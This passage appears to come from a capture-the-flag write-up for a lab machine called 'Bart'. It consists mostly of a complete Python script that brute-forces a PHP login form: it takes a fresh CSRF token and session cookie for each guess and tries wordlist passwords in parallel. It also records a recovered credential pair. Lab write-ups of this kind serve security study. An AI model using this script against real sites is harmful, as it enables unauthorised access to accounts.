 - Now let's try bruteforcing the password
  - I combined usernames list and passwords list
  - `henry:potter`

```
import re
import sys
import requests
import itertools
from multiprocessing import Pool

MAX_PROC = 50

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def check_passwd(username, password):
	
    # CSRF and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    data = {"csrf": csrf, "user_name": username, "user_password": password, "action": "login"}
    headers = {'Cookie': f"PHPSESSID={PHPSESSID}"}
    
    r = requests.post(url, data=data, headers=headers)
	
    if '<p>The information is incorrect.</p>' in r.text:
        return username, password, False
    else:
        return username, password, True


def attack(usernames, wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r') as f:
       passwords = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    for username, password, status in pool.starmap(check_passwd, list(itertools.product(usernames,passwords))):
        if status:
            sys.stdout.write(f"\n[+] Found password => {username}:{password} \n")
            pool.terminate()
            sys.exit(0)

    print("\n\nPassword not found\n")


if __name__ == '__main__':
    
    url = "http://monitor.bart.htb/"
    usernames = ["daniel", "harvey"]
    wordlist = sys.argv[1]

    attack(usernames, wordlist)
```
